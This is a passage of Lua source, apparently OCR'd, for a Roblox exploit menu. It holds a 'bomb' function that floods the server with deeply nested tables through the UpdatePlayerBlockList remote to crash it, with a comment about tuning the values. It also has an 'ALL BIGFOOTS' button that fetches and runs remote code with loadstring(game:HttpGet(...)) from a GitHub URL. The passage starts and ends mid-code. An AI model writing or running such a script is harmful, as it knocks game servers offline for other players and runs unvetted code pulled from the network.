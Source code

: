    local function bomb(tableincrease, tries)
    local maintable = {}
    local spammedtable = {}

    table.insert(spammedtable, {})
    z = spammedtable[1]

    for i = 1, tableincrease do
       local tableins = {}
       table.insert(z, tableins)
       z = tableins
    end

    local calculatemax = getmaxvalue(tableincrease)
    local maximum

    if calculatemax then
        maximum = calculatemax
        else
        maximum = 10000
    end

    for i = 1, maximum do
        table.insert(maintable, spammedtable)
    end

    for i = 1, tries do
        game.RobloxReplicatedStorage.UpdatePlayerBlockList:FireServer(maintable)
    end
   end

   bomb(250, 2) --// change values if client crashes
end
   end
end)

------
------
------
------
------

local Tab = Window:NewTab("ALL BIGFOOTS")

local Section = Tab:NewSection("4-A-SIDE BIGFOOT")
Section:NewButton("Execute", "ButtonInfo", function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/3kizy/sd/main/README.md", true))()
end)

---------------

local Section = Tab:NewSection("UFA BIGFOOT")
Section:NewButton("Execute", "ButtonInfo", function()
-- Gui to Lua
-- Version: 3.2
